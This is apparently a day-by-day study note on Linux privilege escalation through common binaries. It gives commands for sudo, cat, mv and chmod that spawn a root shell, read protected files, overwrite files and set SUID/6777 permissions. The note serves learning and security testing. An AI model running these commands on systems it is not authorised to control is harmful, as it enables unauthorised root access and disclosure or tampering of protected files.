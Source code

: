 
# ♦ Day 19
</br>
</br>

## ◙ ***Privillage Escalation with comman commands***
 </br>
 
# ♦ `Sudo` : 
   ⇨  If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
</br>
#### Command:

      sudo sudo /bin/sh

   </br>
   </br>

### ♦ `cat` :  

   ⇨  Description: The `cat` command reads data from files and can be used to do privileged reads or disclose files outside a restricted file system. If it has the SUID bit set, it can escalate privileges.
</br>
#### Command: 

   • File Read :

    LFILE=file_to_read
    cat "$LFILE"

   • SUID :

    sudo install -m =xs $(which cat) .

    LFILE=file_to_read
    ./cat "$LFILE"

   • Sudo :

    LFILE=file_to_read
    sudo cat "$LFILE"


# ♦ `mv` : 
   ⇨  The `mv` command can move files from restricted file systems or with elevated privileges. If it has the SUID bit set, it can escalate privileges.


#### Command:

   • SUID :
   
   ```sh
  sudo install -m =xs $(which mv) .

  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  ./mv $TF $LFILE
  ```
• Sudo:
   ```sh
  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  sudo mv $TF $LFILE
```

### ♦ `chmod` :
   ⇨ The `chmod` command can change file permissions with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which chmod) .

  LFILE=file_to_change
  ./chmod 6777 $LFILE
  ```
• Sudo:
  ```sh
  LFILE=file_to_change
  sudo chmod 6777 $LFILE
  ```

